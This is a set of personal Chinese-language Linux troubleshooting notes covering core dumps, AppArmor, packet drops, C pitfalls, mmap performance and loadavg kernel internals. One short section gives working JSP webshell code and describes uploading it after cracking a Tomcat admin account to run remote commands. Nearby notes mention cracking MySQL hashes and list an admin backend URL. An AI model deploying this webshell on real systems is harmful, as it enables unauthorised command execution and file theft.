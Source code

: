 #+OPTIONS: "\n:t"

[[file:record_syncookie.org][* syncookie问题]]
* 获取token
* coredump被截断
  一个同事找我，看
  #gdb -c xxx.core
  显示
  BFD: Warning: /home/corefile/core.aaaservice.8689.1374747488 is truncated: expected core file size >= 6965805056, found: 1092853760.
  coredump文件被截断了。
#+begin_example
  aaa-a:/home/corefile # ulimit -a
  core file size          (blocks, -c) unlimited
  data seg size           (kbytes, -d) unlimited
  scheduling priority             (-e) 0
  file size               (blocks, -f) unlimited
  pending signals                 (-i) 63812
  max locked memory       (kbytes, -l) 64
  max memory size         (kbytes, -m) 6952488
  open files                      (-n) 1024
  pipe size            (512 bytes, -p) 8
  POSIX message queues     (bytes, -q) 819200
  real-time priority              (-r) 0
  stack size              (kbytes, -s) 8192
  cpu time               (seconds, -t) unlimited
  max user processes              (-u) 63812
  virtual memory          (kbytes, -v) 13258640
  file locks                      (-x) unlimited
#+end_example
  挺奇怪
  有看了/etc/security/limits.conf:
#+begin_example
        #-----------------------------------------------------------------
        # the following item is specially used by hitv  system
        # added by hitv_system_env_init.sh
        # date : Fri Mar 30 06:05:35 GMT 2012
        #-----------------------------------------------------------------
  @hitv    soft    stack    4096
  @hitv    hard    stack    4096
  @hitv    soft    nofile    10240
  @hitv    hard    nofile    65536

  * soft core unlimited
  * hard core unlimited
#+end_example
最后一行我加的。
但是，core了以后，还是被截断。

后来才发现他是以hitv用户运行的程序，
而该用户的core大小是受限的。

可以通过这个查看某个进程的limits
cat /proc/${pid}/limits
* nmap

使用nmap扫描生产网络。

* tomcat webshell
  使用建立web工程jsphack，
  在工程中加入一个cmd.jsp文件
  在jsphack目录下运行jar cvf *.* jsphack.war
  
  破解tomcat管理账户后，可以上传war工程。
  
  然后运行cmd.jsp spy.jsp可以运行远程机器上的命令，也可以获取文件。

#+begin_example
<%@ page contentType="text/html; charset=gb2312"%> 
<%@page import="java.io.*"%>
<%@page import="java.util.*"%>

<% 
String cmd = request.getParameter("cmd"); 
String output = ""; 

if(cmd != null) { 
  String s = null; 
  try { 
    Process p = Runtime.getRuntime().exec(cmd); 
    BufferedReader sI = new BufferedReader(new InputStreamReader(p.getInputStream())); 
    while((s = sI.readLine()) != null) { 
    output += s+"\n"; 
    } 
  } 
  catch(IOException e) { 
    e.printStackTrace(); 
  } 
}
output = output.replace("&","&amp;").replace("<","&lt;").replace(">","&gt;");
%> 
<form method="post" action="cmd.jsp"> 
<input name="cmd" type=text> 
<input type=submit value="Run"> 
</form> 
<textarea name="hack" rows="40" cols="100"> 
<%=output%> 
</textarea>
#+end_example
    
* mysql 密码破解
  mysql 密码信息放在user.MYD文件中。
  存放的是密码的SHA或者MD5的hashcode

  可以使用工具cain破解。

* 海信社区后台
http://123.103.18.138:8080/hisadmin/smarttv/login.do
* rpm segment fault
  原因是stack 值太少
  rpm -ivh xxx.rpm
  segment fault

  linux-edr0:~ # ulimit -a | grep stack
  stack size              (kbytes, -s) 256

  # ulimit -s 8196
  然后运行rpm安装程序，正常。

** TODO 怎么能看出问题是由于stack设置过少导致的呢？
* ngnix TIME_WAIT 过多
ngx_http_finalize_connection
* named启动不了
#+begin_example
linux-152:~ # service named start
Starting name server BIND /usr/sbin/named: error while loading shared libraries: libz.so.1: failed to map segment from shared object: Permission denied
startproc:  exit status of parent of /usr/sbin/named: 127
                                                                     failed
linux-152:~ # ltrace
#+end_example
在suse上有类似SELinux的机制apparmor
这个问题看起来像apparmor引起的。

查找libz.so.1，发现/lib目录有一个。
编辑/etc/apparmor.d/usr.sbin.named:
加入一行：
/lib/* rm

然后运行：
#+begin_example
linux-152# aa-genprof named
[(S)can system log for AppArmor events] / (F)inish
Reading log entries from /var/log/audit/audit.log.
Updating AppArmor profiles in /etc/apparmor.d.
Profiling: /usr/sbin/named
#+end_example
生成named的新的apparmor配置

然后再次service named start，仍然不行。

使用strace
#+begin_example
linux-152# strace named
...
open("/usr/local/lib/libz.so.1", O_RDONLY) = 3
read(3, "\177ELF\2\1\1\0\0\0\0\0\0\0\0\0\3\0>\0\1\0\0\0@!\0\0\0\0\0\0"..., 832)                                                                                                                            = 832
fstat(3, {st_mode=S_IFREG|0755, st_size=109107, ...}) = 0
mmap(NULL, 4096, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0x7f6                                                                                                                           884c48000
mmap(NULL, 2195952, PROT_READ|PROT_EXEC, MAP_PRIVATE|MAP_DENYWRITE, 3, 0) = -1 E                                                                                                                           ACCES (Permission denied)
close(3)                                = 0
writev(2, [{"named", 5}, {": ", 2}, {"error while loading shared libra"..., 36},
           {": ", 2}, {"libz.so.1", 9}, {": ", 2}, {"failed to map segment from share"..., 40}, 
           {": ", 2}, {"Permission denied", 17}, {"\n", 1}], 
           10named: error while loading shared libraries: libz.so.1: failed to map segment from shared object: Permission denied
) = 116
exit_group(127)         
#+end_example
可以看到实际使用时/usr/local/lib/libz.so.1不是/lib目录下的。
再次修改/etc/apparmor.d/usr.sbin.named，再运行aa-genprof named.
再启动named，成功。

* ifconfig shows dropped rx packets

This document (7007165) is provided subject to the disclaimer at the end of this document. 
Environment
 SUSE Linux Enterprise Server 11 Service Pack 2
Situation
 ifconfig shows dropped rx packets
After updating to SLES 11 SP2 packets are being dropped
Dropped counter incrementing 
rx_dropped counter is incrementing

Customers have reported seeing dropped packets when examining statistics on their network card, bonds, or virtual interfaces.  


Resolution
 Working as designed.
Cause
 Beginning with kernel 2.6.37, it has been changed the meaning of dropped packet count. Before, dropped packets was most likely due to an error. Now, the rx_dropped counter shows statistics for dropped frames because of:

Softnet backlog full
Bad / Unintended VLAN tags
Unknown / Unregistered protocols
IPv6 frames when the server is not configured for IPv6

If any frames meet those conditions, they are dropped before the protocol stack and the rx_dropped counter is incremented.
Additional Information
 Care should be taken to confirm that frames are not being legitimately dropped.  A quick way to test this (WARNING: this test does not work for bonding interfaces) is to start a packet capture:

host:~# tcpdump

And then watching the rx_dropped counter.  If it stops incrementing while the tcpdump is running; then it is more than likely showing drops because of the reasons listed earlier.  If frames continue to be dropped while running tcpdump, investigation should take place to determine root cause.

This effect is seen starting from SLES 11 SP2, as it utilizes a 3.x kernel series. Previous SLES versions do not exhibit it (that are using kernels prior to 2.6.37)

Additional information can be found by researching commit # caf586e5

原因：dropped，现在加入了因为：
Softnet backlog full
Bad / Unintended VLAN tags
Unknown / Unregistered protocols
IPv6 frames when the server is not configured for IPv6

这几个原因，丢包的计数，而之前rx_dropped计数是属于硬件丢包。

运行tcpdump时，所有的包都会被上层接受，所以dropped计数不再增加。


运行命令，查看内核注册的支持的protocol
linux-17:~ # cat /proc/net/ptype
Type Device      Function
0800          ip_rcv+0x0/0x2f0
0011          llc_rcv+0x0/0x350 [llc]
0004          llc_rcv+0x0/0x350 [llc]
0806          arp_rcv+0x0/0x140
dada          edsa_rcv+0x0/0x2b0
001b          dsa_rcv+0x0/0x290
001c          trailer_rcv+0x0/0x190
86dd          ipv6_rcv+0x0/0x3e0 [ipv6_lib]

运行tcpdump 抓包是，
再次查看
linux-17:~ # cat /proc/net/ptype
Type Device      Function
ALL  eth0     tpacket_rcv+0x0/0x630 [af_packet]
0800          ip_rcv+0x0/0x2f0
0806          arp_rcv+0x0/0x140
dada          edsa_rcv+0x0/0x2b0
001b          dsa_rcv+0x0/0x290
001c          trailer_rcv+0x0/0x190
86dd          ipv6_rcv+0x0/0x3e0 [ipv6_lib]



现场使用tcpdump抓包，发现是有未注册的protocol

* ifconfig /proc/net/dev
* sysrq
  开启sysreq
 # sysctl -w kernel.sysrq=1 
 kernel.sysrq = 1 
 # cat /proc/sys/kernel/sysrq 
 1

Alt+SysRq+H 列出帮助
*
* sqlite3
  linux下可以使用命令sqlite3 xxx.db
  操作数据库文件

* python signal
  fcntl.fcntl(fd, fcntl.F_SETSIG, 0)
  flags = fcntl.DN_MODIFY | fcntl.DN_DELETE | fcntl.DN_CREATE | fcntl.DN_MULTISHOT
  # ctypes.c_int for fcntl.DN_MULTISHOT overflow in some machine
  fcntl.fcntl(fd, fcntl.F_NOTIFY, ctypes.c_int(flags).value)

  signal.signal(signal.SIGIO, handler)

  def handler(signum, frame):
      queue.put_nowait(1)


  发现handler经常就不起作用，最后发现应该python:Queue的api不是可重入的
  semphore 也不可重入
* atoll 返回结果溢出
  同事写一个程序，简化后如下：
#+begin_src c
 #include <stdio.h>
int main(int argc, char** argv)
{
  long long num = 0;
  num = atoll("100000000000");
  printf("num=%lld", num);
  return 0;
}
#+end_src
运行结果num=1215752192 


1215752192 = 0x4876E800
1000000000 = 0x174876E800
显然atoll返回的结果是32位的。
这个程序怎么能有问题。
后来换成strtoll，结果还是一样。

后来我想到突然想到可能是使用atoll()，没用include其头文件，导致c默认使用int作为返回值。
后来加上#include<stdlib.h>，
结果就正确了。

我对比了修改前后的编译结果，希望发现差异。
最后对比发现，出问题是仅多了一条指令ctlq

 # objdump -d main
00000000040058c <main>:
  40058c:	55                   	push   %rbp
  40058d:	48 89 e5             	mov    %rsp,%rbp
  400590:	48 83 ec 20          	sub    $0x20,%rsp
  400594:	89 7d ec             	mov    %edi,-0x14(%rbp)
  400597:	48 89 75 e0          	mov    %rsi,-0x20(%rbp)
  40059b:	48 c7 45 f8 00 00 00 	movq   $0x0,-0x8(%rbp)
  4005a2:	00 
  4005a3:	bf d4 06 40 00       	mov    $0x4006d4,%edi
  4005a8:	b8 00 00 00 00       	mov    $0x0,%eax
  4005ad:	e8 d6 fe ff ff       	callq  400488 <atoll@plt>
  4005b2:	48 98                	cltq   
  4005b4:	48 89 45 f8          	mov    %rax,-0x8(%rbp)
  4005b8:	48 8b 75 f8          	mov    -0x8(%rbp),%rsi
  4005bc:	bf e1 06 40 00       	mov    $0x4006e1,%edi
  4005c1:	b8 00 00 00 00       	mov    $0x0,%eax
  4005c6:	e8 9d fe ff ff       	callq  400468 <printf@plt>
  4005cb:	b8 00 00 00 00       	mov    $0x0,%eax
  4005d0:	c9                   	leaveq 
  4005d1:	c3                   	retq   


  使用gdb调试，运行ctlq前，rax=0x174876e800,还是正确的，
  之后就切成32位。
  # gdb main
  (gdb) b *0x4005b2
  Breakpoint 1 at 0x4005b2
  (gdb) r
  Breakpoint 1, 0x00000000004005b2 in main ()
  (gdb) x /i $pc
  => 0x4005b2 <main+38>:  cltq
  (gdb) p /x $rax
  $1 = 0x174876e800
  (gdb) si
  0x00000000004005b4 in main ()
  (gdb) p /x $rax
  $2 = 0x4876e800
  (gdb)


  cltq指令
  cltq R[%rax ] <- SignExtend(R[%eax]) Convert %eax to quad word，将$eax转化为4字，不就是RAX了嘛，切，
  cltq是有符号数的扩展，如果$eax的最高的32位为1的话，RAX的高32扩展后全为1，相反如果$EAX的高位为0的话，则扩展出来后全为0
* CLOSE_WAIT
  被动关闭端，收到FIN后，如果不关闭socket，那么将socket永久处于CLOSE_WAIT状态。
* server 不accept
  server 监听一个端口（server backlog = 128)
  client 不断向server建立连接。
  当建立链接数超过128后，server端ESTAB状态的链接不再增加，而SYN-RECV状态的链接开始增多。
  此是client端的ESTAB状态一直增加。
  
  从实验可以看到，当连接数超过128后，Server仍然向client发送syn/ack，但是syn-recv状态定时器开启，重试发送5次后超时。放弃链接。
  而client端确对此一无所知，还认为是合法链接。
  
* 写mmap内存变慢的原因
  同事写的程序在线上遇到性能问题，
  拉了一堆人一起分析原因。最后大家一致认定是由于访问锁把速度拉下慢了。
  但是通过看代码也没有看到锁用不当的地方。
  最后人们终于发现是一处代码将一个文件mmap了，再mmap的内存中存放锁！！
  就是由于访问锁的内存操作慢，所以才导致了整体性能下降。
  
  tony将频繁些磁盘的jdb2内核线程停掉，再进行测试，问题就没有了。
  
  后来我写了一个测试程序：
#+begin_src c
#include <sys/mman.h> /* for mmap and munmap */
#include <sys/types.h> /* for open */
#include <sys/stat.h> /* for open */
#include <fcntl.h>     /* for open */
#include <unistd.h>    /* for lseek and write */
#include <stdio.h>
#include <string.h> /* for memcpy */
#include <sys/mman.h>

int main(int argc, char **argv)

{
    int fd;
    char *mapped_mem, * p;
    int flength = 1024;
    void * start_addr = 0;
    struct timeval tpstart,tpend;
    double timeuse;
    int count = 0;
    int rc;
    fd = open(argv[1], O_RDWR | O_CREAT, S_IRUSR | S_IWUSR);
    flength = lseek(fd, 1, SEEK_END);
    write(fd, "\0", 1); /* 在文件最后添加一个空字符，以便下面printf正常工作 */
    lseek(fd, 0, SEEK_SET);
    //start_addr = 0x80000;
    mapped_mem = mmap(NULL, flength, PROT_READ|PROT_WRITE,
                      MAP_SHARED,
                      fd, 0);
    rc = mlock(mapped_mem, flength);
    printf("mlock ------------------rc=%d\n", rc);
    madvise(mapped_mem, flength, MADV_WILLNEED);
    while(1) {
        char buf[256];
        printf("------------------------------------------\n");
        gettimeofday(&tpstart,NULL);

        strcpy(buf, mapped_mem);

        gettimeofday(&tpend,NULL);
        timeuse=1000000*(tpend.tv_sec-tpstart.tv_sec)+tpend.tv_usec-tpstart.tv_usec;
        timeuse/=1000000;
        printf("read processor time is %lf s\n",timeuse);

        printf("%s\n", buf);
        sprintf(buf,"linux%d", count++);

        gettimeofday(&tpstart,NULL);

        strcpy(mapped_mem, buf);

        gettimeofday(&tpend,NULL);
        timeuse=1000000*(tpend.tv_sec-tpstart.tv_sec)+tpend.tv_usec-tpstart.tv_usec;
        timeuse/=1000000;
        printf("write processor time is %lf s\n",timeuse);

        sleep(1);
    }
    close(fd);
    munmap(mapped_mem, flength);
    return 0;

}

#+end_src

 运行: testmap test.txt

 同时在另一个窗口，运行fsync test.txt
 发现每次运行fsync，testmap程序花在写的时间就增加很多。
 
 我就疑惑为什么，page cache不会怎么快就被换出去啊，但是写时间增加，应该是由于触发page fault。
 但是为什么呢？？
 这样刷新文件的writeback操作会影响写内存的操作？

 原来：
 在write_cache_pages里，lock_page以后会调用clear_page_dirty_io(page)
 然后：
 --> clear_page_dirty_for_io(page)
 --> page_mkclean(page)
 --> page_mkclean_file(page)
 --> page_mkclean_one(page)

 而page_mkclean_one(page)，里面会执行pte_wrprotect(entry),
 也就是置pte为写保护。
 当应用写这个page时，就会碰到写保护，触发do_page_fault,即使这个page已经在内存中了。
 --> do_page_fault
 --> handle_mm_fault
 --> handle_pte_fault

 handle_pte_fault 一段代码：
   if(flags & FAULT_FLAGS_WRITE) {
      if(!pte_write(entry))
          return do_wp_page(mm, vma, address,
                    pte, pmd, ptl, entry);
       entry = pte_mkdirty(entry);
   }
 
而do_wp_page,会对可写且共享的vma里的page，依次调用page_mkwrite。

page_mkwrite会lock_page
*  ntoa
写一个程序测试dns
#+begin_src c
#include <stdio.h>
#include <stdlib.h>
#include <errno.h>
#include <netdb.h>
#include <sys/types.h>
#include <netinet/in.h>

int main(int argc, char *argv[])
{
    struct hostent *h;

    if (argc != 2) {
        fprintf(stderr,"usage: getip address\n");
        exit(1);
    }
    sethostent(1);

    if ((h=gethostbyname(argv[1])) == NULL) {
        herror("gethostbyname");
        exit(1);
    }

    printf("Host name : %s\n", h->h_name);
    printf("IP Address : %s\n",inet_ntoa(*((struct in_addr *)h->h_addr)));

    return 0;
}

#+end_src

最后一个printf总崩掉，原因，inet_ntoa没有引用头文件，返回int型了。而测试的机器是64位的。
char * 和 int位数不同。

* getopt

#+begin_src c
     #include <ctype.h>
     #include <stdio.h>
     #include <stdlib.h>
     #include <unistd.h>
     
     int
     main (int argc, char **argv)
     {
       int aflag = 0;
       int bflag = 0;
       char *cvalue = NULL;
       int index;
       int c;
     
       opterr = 0;
     
       while ((c = getopt (argc, argv, "abc:d::")) != -1)
         switch (c)
           {
           case 'a':
             aflag = 1;
             break;
           case 'b':
             bflag = 1;
             break;
           case 'c':
             cvalue = optarg;
             break;
           case '?':
             if (optopt == 'c')
               fprintf (stderr, "Option -%c requires an argument.\n", optopt);
             else if (isprint (optopt))
               fprintf (stderr, "Unknown option `-%c'.\n", optopt);
             else
               fprintf (stderr,
                        "Unknown option character `\\x%x'.\n",
                        optopt);
             return 1;
           case 'd':
             dvalue = optarg;

           default:
             abort ();
           }
     
       printf ("aflag = %d, bflag = %d, cvalue = %s, dvalue = %s\n",
               aflag, bflag, cvalue, dvalue);
     
       for (index = optind; index < argc; index++)
         printf ("Non-option argument %s\n", argv[index]);
       return 0;
     }

#+end_src

* netstat 原理
  读取/proc文件系统
  
  /proc/net/tcp -- TCP socket information

 tcp4_seq_show() -> get_tcp4_sock()
关于其中rx_queue的含义：
#+begin_src c
	if (sk->sk_state == TCP_LISTEN)
		rx_queue = sk->sk_ack_backlog;
	else
		/*
		 * because we dont lock socket, we might find a transient negative value
		 */
		rx_queue = max_t(int, tp->rcv_nxt - tp->copied_seq, 0);
#+end_src
我们可以看出
对于处于LISTEN状态的的链接，rx_queue是半链接队列的长度。
处于其他状态的，rx_queue是尚未被用户态处理的数据字节数

  /proc/net/udp -- UDP socket information

* ipvs
ip_vs_schedule() -> dest = svc->scheduler->schedule(svc, skb);
->ip_vs_rr_schedule()

	do {
		/* skip list head */
		if (q == &svc->destinations) {
			q = q->next;
			continue;
		}

		dest = list_entry(q, struct ip_vs_dest, n_list);
		if (!(dest->flags & IP_VS_DEST_F_OVERLOAD) &&
		    atomic_read(&dest->weight) > 0)
			/* HIT */
			goto out;
		q = q->next;
	} while (q != p);


而IP_VS_DEST_F_OVERLOAD，是由下面代码设置的
ip_vs_bind_dest()
	if (dest->u_threshold != 0 &&
	    ip_vs_dest_totalconns(dest) >= dest->u_threshold)
		dest->flags |= IP_VS_DEST_F_OVERLOAD;

* strncpy strncat snprintf
char *strncpy(char *dest, const char *src, size_t n);
最多从src中拷贝n个字符到dest。如果src的大小小于n，那么dest剩下的部分将被填0；
如果src的大小大于等于n，那么dest剩下的部分不会被填0，于是dest将不会以0结束。

#+begin_src
           char*
           strncpy(char *dest, const char *src, size_t n){
               size_t i;

               for (i = 0 ; i < n && src[i] != '\0' ; i++)
                   dest[i] = src[i];
               for ( ; i < n ; i++)
                   dest[i] = '\0';

               return dest;
           }
#+end_src
char *strncat(char *dest, const char *src, size_t n);
最多从源中拷贝n个字符到目标串中，并在后面加一个0；也就是说，最多会有n+1个字符被写进dest。如果dest的容量为n，那么将会dest将会溢出。


int snprintf(char *str, size_t size, const char *format, ...);
最多从源串中拷贝size－1个字符到目标串中，然后再在后面加一个0。所以如果目标串的大小为size的话，将不会溢出。
所以，字符串拷贝，最好用snprintf。

* Loadavg浅述 
Loadavg浅述 
http://kernel.taobao.org/index.php/Loadavg%E9%97%AE%E9%A2%98%E5%88%86%E6%9E%90
cat /proc/loadavg可以看到当前系统的load 
$ cat /proc/loadavg 
0.01 0.02 0.05 2/317 26207 
前面三个值分别对应系统当前1分钟、5分钟、15分钟内的平均load。load用于反映当前系统的负载情况
，对于16核的系统，如果每个核上cpu利用率为30%，则在不存在uninterruptible进程的情况下，系统load应该维持在4.8左右。
对16核系统，如果load维持在16左右，在不存在uninterrptible进程的情况下，意味着系统CPU几乎不存在空闲状态，利用率接近于100%。
结合iowait、vmstat和loadavg可以分析出系统当前的整体负载，各部分负载分布情况。 

Loadavg读取 

在内核中/proc/loadavg是通过load_read_proc来读取相应数据，下面首先来看一下load_read_proc的实现： 
fs/proc/proc_misc.c
#+begin_src c
static int loadavg_read_proc(char *page, char **start, off_t off, 
                                 int count, int *eof, void *data) 
{ 
        int a, b, c; 
        int len; 

        a = avenrun[0] + (FIXED_1/200); 
        b = avenrun[1] + (FIXED_1/200); 
        c = avenrun[2] + (FIXED_1/200); 
        len = sprintf(page,"%d.%02d %d.%02d %d.%02d %ld/%d %d\n", 
                LOAD_INT(a), LOAD_FRAC(a), 
                LOAD_INT(b), LOAD_FRAC(b), 
                LOAD_INT(c), LOAD_FRAC(c), 
                nr_running(), nr_threads, last_pid); 
        return proc_calc_metrics(page, start, off, count, eof, len); 
}
#+end_src

几个宏定义如下： 
#+begin_src c
 #define FSHIFT          11              /* nr of bits of precision */ 
 #define FIXED_1         (1<<FSHIFT)     /* 1.0 as fixed-point */ 
 #define LOAD_INT(x) ((x) >> FSHIFT) 
 #define LOAD_FRAC(x) LOAD_INT(((x) & (FIXED_1-1)) * 100)
#+end_src

根据输出格式，LOAD_INT对应计算的是load的整数部分，LOAD_FRAC计算的是load的小数部分。 
将a=avenrun[0] + (FIXED_1/200）带入整数部分和小数部分计算可得： 
#+begin_example
LOAD_INT(a) = avenrun[0]/(2^11) + 1/200
LOAD_FRAC(a) = ((avenrun[0]%(2^11) + 2^11/200) * 100) / (2^11)
             = (((avenrun[0]%(2^11)) * 100 + 2^10) / (2^11)
             = ((avenrun[0]%(2^11) * 100) / (2^11) +  
#+end_example

由上述计算结果可以看出，FIXED_1/200在这里是用于小数部分第三位的四舍五入，由于小数部分只取前两位，第三位如果大于5，则进一位，否则直接舍去。 

临时变量a/b/c的低11位存放的为load的小数部分值，第11位开始的高位存放的为load整数部分。因此可以得到a=load(1min) * 2^11 
因此有: load(1min) * 2^11 = avenrun[0] + 2^11 / 200 
进而推导出： load(1min)=avenrun[0]/(2^11) + 1/200 
忽略用于小数部分第3位四舍五入的1/200，可以得到load(1min)=avenrun[0] / 2^11，即： 
avenrun[0] = load(1min) * 2^11 

avenrun是个陌生的量，这个变量是如何计算的，和系统运行进程、cpu之间的关系如何，在第二阶段进行分析。 

Loadavg和进程之间的关系 

内核将load的计算和load的查看进行了分离，avenrun就是用于连接load计算和load查看的桥梁。 
下面开始分析通过avenrun进一步分析系统load的计算。 
avenrun数组是在calc_load中进行更新 
kernel/timer.c
#+begin_src c
 /* 
 * calc_load - given tick count, update the avenrun load estimates. 
 * This is called while holding a write_lock on xtime_lock. 
 */ 
static inline void calc_load(unsigned long ticks) 
{ 
        unsigned long active_tasks; /* fixed-point */ 
        static int count = LOAD_FREQ;  
        count -= ticks; 
        if (count < 0) { 
                count += LOAD_FREQ; 
                active_tasks = count_active_tasks(); 
                CALC_LOAD(avenrun[0], EXP_1, active_tasks); 
                CALC_LOAD(avenrun[1], EXP_5, active_tasks); 
                CALC_LOAD(avenrun[2], EXP_15, active_tasks); 
        } 
}
static unsigned long count_active_tasks(void) 
{ 
        return nr_active() * FIXED_1; 
}
#+end_src
 #define LOAD_FREQ       (5*HZ)          /* 5 sec intervals */ 
 #define EXP_1           1884            /* 1/exp(5sec/1min) as fixed-point */ 
 #define EXP_5           2014            /* 1/exp(5sec/5min) */ 
 #define EXP_15          2037            /* 1/exp(5sec/15min) */


calc_load在每个tick都会执行一次，每个LOAD_FREQ（5s）周期执行一次avenrun的更新。 
active_tasks为系统中当前贡献load的task数nr_active乘于FIXED_1，用于计算avenrun。宏CALC_LOAD定义如下： 
 #define CALC_LOAD(load,exp,n) \ 
       load *= exp; \ 
       load += n*(FIXED_1-exp); \ 
       load >>= FSHIFT;


用avenrun(t-1)和avenrun(t)分别表示上一次计算的avenrun和本次计算的avenrun，则根据CALC_LOAD宏可以得到如下计算： 
avenrun(t)=(avenrun(t-1) * EXP_N + nr_active * FIXED_1*(FIXED_1 – EXP_N)) / FIXED_1
          = avenrun(t-1) + (nr_active*FIXED_1 – avenrun(t-1)) * (FIXED_1 -EXP_N) / FIXED_1


推导出： 
avenrun(t) – avenrun(t-1) = (nr_active*FIXED_1 – avenrun(t-1)) * (FIXED_1 – EXP_N) / FIXED_1


将第一阶段推导的结果代入上式，可得： 
(load(t) – load(t-1)) * FIXED_1 = (nr_active – load(t-1)) * (FIXED_1 – EXP_N)


进一步得到nr_active变化和load变化之间的关系式： 

load(t) – load(t-1) = (nr_active – load(t-1)) * (FIXED_1 – EXP_N) / FIXED_1 

这个式子可以反映的内容包含如下两点： 
1）当nr_active为常数时，load会不断的趋近于nr_active，趋近速率由快逐渐变缓 
2）nr_active的变化反映在load的变化上是被降级了的，系统突然间增加10个进程， 
1分钟load的变化每次只能够有不到1的增加（这个也就是权重的的分配）。 

另外也可以通过将式子简化为： 

load(t)= load(t-1) * EXP_N / FIXED_1 + nr_active * (1 - EXP_N/FIXED_1)  

这样可以更加直观的看出nr_active和历史load在当前load中的权重关系 （多谢任震宇大师的指出） 
#define EXP_1           1884            /* 1/exp(5sec/1min) as fixed-point */ 
#define EXP_5           2014            /* 1/exp(5sec/5min) */ 
#define EXP_15          2037            /* 1/exp(5sec/15min) */


1分钟、5分钟、15分钟对应的EXP_N值如上，随着EXP_N的增大，(FIXED_1 – EXP_N)/FIXED_1值就越小， 
这样nr_active的变化对整体load带来的影响就越小。对于一个nr_active波动较小的系统，load会 
不断的趋近于nr_active，最开始趋近比较快，随着相差值变小，趋近慢慢变缓，越接近时越缓慢，并最 
终达到nr_active。如下图所示： 
文件:load 1515.jpg 


也因此得到一个结论，load直接反应的是系统中的nr_active。 那么nr_active又包含哪些？ 如何去计算 
当前系统中的nr_active？ 这些就涉及到了nr_active的采样。 

Loadavg采样 

nr_active直接反映的是为系统贡献load的进程总数，这个总数在nr_active函数中计算： 
kernel/sched.c
#+begin_src c
unsigned long nr_active(void) 
{ 
        unsigned long i, running = 0, uninterruptible = 0; 

        for_each_online_cpu(i) { 
                running += cpu_rq(i)->nr_running; 
                uninterruptible += cpu_rq(i)->nr_uninterruptible; 
        } 

        if (unlikely((long)uninterruptible < 0)) 
                uninterruptible = 0; 

        return running + uninterruptible; 
}
#+end_src

 #define TASK_RUNNING            0 
 #define TASK_INTERRUPTIBLE      1 
 #define TASK_UNINTERRUPTIBLE    2 
 #define TASK_STOPPED            4 
 #define TASK_TRACED             8 
/* in tsk->exit_state */ 
 #define EXIT_ZOMBIE             16 
 #define EXIT_DEAD               32 
/* in tsk->state again */ 
 #define TASK_NONINTERACTIVE     64


该函数反映，为系统贡献load的进程主要包括两类，一类是TASK_RUNNING，一类是TASK_UNINTERRUPTIBLE。
 当5s采样周期到达时，对各个online-cpu的运行队列进行遍历，取得当前时刻该队列上running和uninterruptible的
 进程数作为当前cpu的load，各个cpu load的和即为本次采样得到的nr_active。 


18内核计算loadavg存在的问题 

xtime_lock解析 

内核在5s周期执行一次全局load的更新，这些都是在calc_load函数中执行。追寻calc_load的调用： 
kernel/timer.c
#+begin_src c
static inline void update_times(void) 
{  
        unsigned long ticks; 

        ticks = jiffies - wall_jiffies; 
        wall_jiffies += ticks; 
        update_wall_time(); 
        calc_load(ticks); 
}
#+end_src

update_times中更新系统wall time，然后执行全局load的更新。 
kernel/timer.c
#+begin_src c
void do_timer(struct pt_regs *regs) 
{  
        jiffies_64++; 
        /* prevent loading jiffies before storing new jiffies_64 value. */ 
        barrier(); 
        update_times(); 
}
#+end_src

do_timer中首先执行全局时钟jiffies的更新，然后是update_times。 
#+begin_src c
void main_timer_handler(struct pt_regs *regs) 
{ 
...
        write_seqlock(&xtime_lock);
...
        do_timer(regs); 
 #ifndef CONFIG_SMP 
        update_process_times(user_mode(regs)); 
 #endif 
...
        write_sequnlock(&xtime_lock); 
}
#+end_src

对wall_time和全局jiffies的更新都是在加串行锁（sequence lock）xtime_lock之后执行的。 
include/linux/seqlock.h
#+begin_src c
static inline void write_seqlock(seqlock_t *sl) 
{ 
        spin_lock(&sl->lock);
        ++sl->sequence; 
        smp_wmb(); 
} 

static inline void write_sequnlock(seqlock_t *sl) 
{ 
        smp_wmb(); 
        sl->sequence++; 
        spin_unlock(&sl->lock); 
} 
 
typedef struct { 
        unsigned sequence; 
        spinlock_t lock; 
} seqlock_t;
#+end_src

sequence lock内部保护一个用于计数的sequence。Sequence lock的写锁是通过spin_lock实现的， 
在spin_lock后对sequence计数器执行一次自增操作，然后在锁解除之前再次执行sequence的自增操作。 
sequence初始化时为0。这样，当锁内部的sequence为奇数时，说明当前该sequence lock的写锁正被拿， 
